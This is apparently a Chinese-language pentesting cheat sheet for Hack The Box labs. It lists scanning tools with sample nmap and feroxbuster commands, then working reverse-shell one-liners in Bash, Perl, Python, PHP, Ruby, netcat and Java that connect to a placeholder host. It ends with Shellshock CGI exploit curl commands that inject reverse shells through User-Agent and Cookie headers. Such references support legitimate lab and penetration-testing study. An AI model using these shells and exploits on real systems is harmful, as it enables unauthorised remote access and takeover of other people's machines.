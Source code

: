 
### 掃描目錄
+ [dirsearch](https://github.com/maurosoria/dirsearch)
+ [gobuster](https://github.com/OJ/gobuster)
+ [dirb](https://github.com/v0re/dirb)
+ [ffuf](https://github.com/ffuf/ffuf)
+ [feroxbuster](https://github.com/epi052/feroxbuster)
>feroxbuster -u HTBIP -x php,html -f -n 

### 網路掃描工具
+ [nmap](https://nmap.org/)
>nmap -sV -sC -A -T4 HTBIP
+ [RustScan](https://github.com/RustScan/RustScan)
+ [pnscan](https://github.com/ptrrkssn/pnscan)

### [Reverse Shell Cheat Sheet](https://pentestmonkey.net/)
+ Bash
`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

+ [PERL](https://pentestmonkey.net/tools/web-shells/perl-reverse-shell)
` perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' `

+ Python
` python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' `

+ [PHP](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
` php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' `

+ Ruby
` ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' `

+ [Netcat](https://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498)
` nc -e /bin/sh 10.0.0.1 1234 `
>即使它有多個版本的 netcat，但其中一些不支持 -e 選項。
>如果你安裝了錯誤版本的 netcat，仍然可以像這樣恢復你的反向 shell：
` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f `

+ Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### 攻擊技巧
+ [CGI-bin exploit](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)
```
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'

# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi

# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh

#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi

```
